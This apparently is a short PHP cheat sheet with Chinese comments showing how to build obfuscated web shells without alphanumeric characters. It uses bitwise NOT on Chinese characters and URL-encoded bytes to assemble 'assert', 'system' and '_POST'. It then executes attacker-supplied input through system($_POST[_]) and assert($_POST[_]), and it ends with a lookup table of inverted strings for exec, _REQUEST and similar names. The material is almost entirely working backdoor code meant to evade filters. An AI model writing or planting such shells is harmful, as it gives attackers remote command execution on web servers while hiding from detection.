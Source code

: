 ```php
$____ = '_';   //$____='_'
$__ = "寸";
$____ .= ~($__{$_});   //得到P，此时$____="_P"
$__ = "小";
$____ .= ~($__{$_});   //得到O，此时$____="_PO"
$__ = "欠";
$____ .= ~($__{$_});   //得到S，此时$____="_POS"
$__ = "立";
$____ .= ~($__{$_});   //得到T，此时$____="_POST"
$_ = $$____;   //$_ = $_POST
$___($_[_]);   //assert($_POST[_])




<?php
$_ = ~"%9e%8c%8c%9a%8d%8b";   //得到assert，此时$_="assert"
$__ = ~"%a0%af%b0%ac%ab";   //得到_POST，此时$__="_POST"
$___ = $$__;   //$___=$_POST
$_($___[_]);   //assert($_POST[_])



$_=[]; //array
$__=$_.$_; /arrayarray
$_=($_==$__);//$_=(array==arrayarray) false 0
$__=($_==$_);//$__=(array==array) true 1

$___=~区[$__].~冈[$__].~区[$__].~勺[$__].~皮[$__].~针[$__];//system
$____=~码[$__].~寸[$__].~小[$__].~欠[$__].~立[$__];//_POST

$___($$____[_]);//system($_POST[_]);


```


常见单词取反表,

```php

$_ = ~"%9e%8c%8c%9a%8d%8b"; //assert

$_ = ~"%8C%86%8C%8B%9A%92"; //system

$_ = ~"%9A%87%9A%9C"; //exec

$_ = ~"%A0%AD%BA%AE%AA%BA%AC%AB"; //_REQUEST

$_ = ~"%a0%af%b0%ac%ab"; //_POST

```
